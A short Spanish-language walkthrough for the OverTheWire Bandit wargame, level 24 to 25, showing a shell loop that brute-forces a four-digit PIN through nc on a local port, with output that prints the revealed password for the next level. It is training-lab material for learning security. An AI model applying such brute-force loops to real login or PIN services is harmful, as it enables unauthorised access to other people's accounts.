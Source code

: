 ## Objetivo

## Datos de acceso al nivel
**bandit.labs.overthewire.org**
bandit24
Pasword
****** 
## Solucion
```shell
for i in {0000..9999};do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar  $i; done| nc localhost 30002| grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

```
## Notas adicionales 

## Referencias
